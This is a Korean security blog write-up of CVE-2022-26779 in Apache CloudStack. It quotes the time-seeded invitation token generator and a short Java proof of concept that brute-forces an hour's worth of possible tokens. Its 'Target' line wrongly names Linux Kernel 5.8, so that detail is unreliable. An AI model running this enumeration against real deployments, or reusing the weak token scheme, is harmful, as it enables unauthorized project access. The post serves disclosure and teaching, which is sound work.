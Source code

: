 ```yaml
---
title: "[하루한줄] CVE-2022-26779: Apache Cloudstack 난수 예측을 통한 권한 상승 취약점"
author: L0ch
tags: [L0ch, apache, lpe, prng, cve, token]
categories: [1day1line]
date: 2022-03-17 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://github.com/JLLeitschuh/security-research/security/advisories/GHSA-vpcc-9rh2-8jfp

## Target

- Linux Kernel 5.8

## Explain
Apache의 Cloudstack은 클라우드 서비스를 생성, 관리, 배포하기 위한 오픈소스 클라우드 컴퓨팅 소프트웨어입니다. Cloudstack은 이메일을 통해 프로젝트에 유저를 초대할 수 있는데, 이때  `ProjectManagerImpl.inviteAccountToProject` 혹은 `ProjectManagerImpl.inviteUserToProject` 가 호출되며 임의의 토큰이 함께 전송됩니다. 

그러나 이 토큰을 생성하는 PRNG(Pseudo Random Number Generator, 의사 난수) 생성기의 시드 랜덤성의 부족으로 토큰 값을 예측할 수 있는 취약점이 발견되었습니다.

초대 토큰을 생성하는 과정은 아래와 같습니다.

```c
private boolean inviteUserToProject(...){
	if (email == null){
	...
	}
	else{
		//generate the token
		String token = generateToken(10);
	...
	}
}

public static String generateToken(int length) {
     String charset = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
     Random rand = new Random(System.currentTimeMillis());
     StringBuffer sb = new StringBuffer();
     for (int i = 0; i < length; i++) {
         int pos = rand.nextInt(charset.length());
         sb.append(charset.charAt(pos));
     }
     return sb.toString();
 }
```

`inviteUserToProject`에서 `email`이 null이 아닐 경우 `generateToken` 함수를 호출하는데, 이때 전달되는 `length` 값은 10으로 고정됩니다. `generateToken` 함수는 `System.currentTimeMillis`를 난수 생성 시드로 사용하기 때문에 해커가 토큰 값을 예상할 수 있습니다.

아래 PoC로 해커는 일정 시간동안 가능한 모든 토큰을 생성할 수 있고, 초대되지 않은 임의의 프로젝트에 참여해 권한 상승이 가능합니다.

```c
public static String generateToken(long time, int length) {
    String charset = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    Random rand = new Random(time);
    StringBuffer sb = new StringBuffer();
    for (int i = 0; i < length; i++) {
        int pos = rand.nextInt(charset.length());
        sb.append(charset.charAt(pos));
    }
    return sb.toString();
}

public static void main(String[] args) {
    long startTime = System.currentTimeMillis();
    LongStream
        .rangeClosed(startTime + 0, startTime + (long) (3_600_000))
        .parallel()
        .mapToObj(time -> generateToken(time, 10))
        .forEach(System.out::println);
}
```